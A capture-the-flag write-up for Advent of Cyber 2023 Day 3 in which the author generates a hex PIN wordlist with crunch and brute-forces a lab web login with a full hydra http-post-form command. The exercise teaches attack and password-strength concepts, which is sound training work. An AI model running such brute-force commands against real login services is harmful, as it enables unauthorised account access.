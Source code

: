# AoC 2023 - Day 3

> `Brute-forcing` Hydra is Coming to Town

## Learning Objectives
> - Password complexity and the number of possible combinations
> - How the number of possible combinations affects the feasibility of brute force attacks
> - Generating password combinations using `crunch`
> - Trying out passwords automatically using `hydra`

## Steps

```bash
└─$ export box=10.10.94.68
└─$ firefox $box:8000
```

The keypad has keys for 0-9 and A-F, lets generate a list.

```bash
└─$ crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

Using the network tab of the developer inspector inside firefox I can see what the request to the web-server looks like when trying to enter a pin.

```bash
POST http://10.10.94.68:8000/login.php

└─$ hydra -l '' -P 3digits.txt -f -v 10.10.94.68 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
[8000][http-post-form] host: 10.10.94.68   password: {REDACTED}
```

## Question 1

> Using `crunch` and `hydra`, find the PIN code to access the control system and unlock the door. What is the flag?

Click unlock door and get the flag.

